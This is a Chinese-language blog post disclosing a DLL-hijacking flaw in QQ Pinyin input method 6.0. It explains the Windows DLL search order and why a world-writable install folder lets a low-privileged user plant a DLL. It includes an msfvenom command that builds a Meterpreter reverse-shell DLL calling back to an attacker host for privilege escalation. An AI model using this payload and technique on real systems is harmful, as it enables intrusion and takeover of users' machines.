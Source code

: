 ```yaml
---
categories: 内网渗透
date: "2018-06-09T00:00:00Z"
description: QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权
title: QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权
url: /archivers/2018-06-09/1
---
```



## 0x00 DLL劫持简介

《DLL劫持》技术当一个可执行文件运行时，Windows加载器将可执行模块映射到进程的地址空间中，加载器分析可执行模块的输入表，并设法找出任何需要的DLL，并将它们映射到进程的地址空间中。 -- 百度百科


## 0x01 应用程序寻找DLL的过程

* 1.程序所在目录
* 2.系统目录即 SYSTEM32 目录
* 3.16位系统目录即 SYSTEM 目录
* 4.Windows目录
* 5.加载 DLL 时所在的当前目录
* 6.PATH环境变量中列出的目录

首先如果在程序所在目录下未寻找到DLL，一般会在SYSTEM32目录下寻找到，那么可能会存在DLL劫持，要看注册表

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`

Windows操作系统通过“DLL路径搜索目录顺序”和“KnownDLLs注册表项”的机制来确定应用程序所要调用的DLL的路径，之后，应用程序就将DLL载入了自己的内存空间，执行相应的函数功能。

## 0x02 寻找过程

Process Monitor一款系统进程监视软件，总体来说，Process Monitor相当于Filemon+Regmon，其中的Filemon专门用来监视系统 中的任何文件操作过程，而Regmon用来监视注册表的读写操作过程。 有了Process Monitor，使用者就可以对系统中的任何文件和 注册表操作同时进行监视和记录，通过注册表和文件读写的变化， 对于帮助诊断系统故障或是发现恶意软件、病毒或木马来说，非常 有用。 这是一个高级的 Windows 系统和应用程序监视工具，由优秀的 Sysinternals 开发，并且目前已并入微软旗下，可靠性自不用说。


通过Process Monitor找出一些可能容易被劫持的DLL，特征一般如下：

![0x01](../../../static/images/24a8fd52-4f5f-11ec-8285-00d861bf4abb.jpg)

* ntmarta.dll(直接调用)
* profapi.dll（需要点击“配置”）

这两个都不在KnownDLLs中，由于开发人员调用这两个DLL的时候没有定义绝对路径，导致DLL搜索，我们可以直接在搜索到system32之前，放入我们要劫持的DLL。

权限问题：

如果要劫持的DLL目录被操作系统限制了必须以管理员权限才可以读写，那么我们无法利用，本文演示从低权限到高权限的DLL劫持提权。

![0x02](../../../static/images/24ed1d7a-4f5f-11ec-9f88-00d861bf4abb.jpg)

那么这个漏洞刚刚好也符合我们的案例：C:\Program Files (x86)\Tencent\QQPinyin\6.0.5005.400

这个目录是任何人都可以读写的，使用MSF生成DLL：

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.19 LPORT=4478 -f dll > ntmarta.dll`

接下来通过任意途径，将dll copy到`C:\Program Files (x86)\Tencent\QQPinyin\6.0.5005.400`路径下即可

MSF配置如下：

![0x03](../../../static/images/25291a8c-4f5f-11ec-9430-00d861bf4abb.jpg)

当用户使用输入法的时候、或者重启PC的时候，或者切换输入法的时候，都将会触发，我们可以获得一个Meterpreter会话。

![0x04](../../../static/images/256ca7ca-4f5f-11ec-89a6-00d861bf4abb.jpg)

## 0x03 视频演示

<video src="../../../static/images/25aa0304-4f5f-11ec-9da1-00d861bf4abb.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>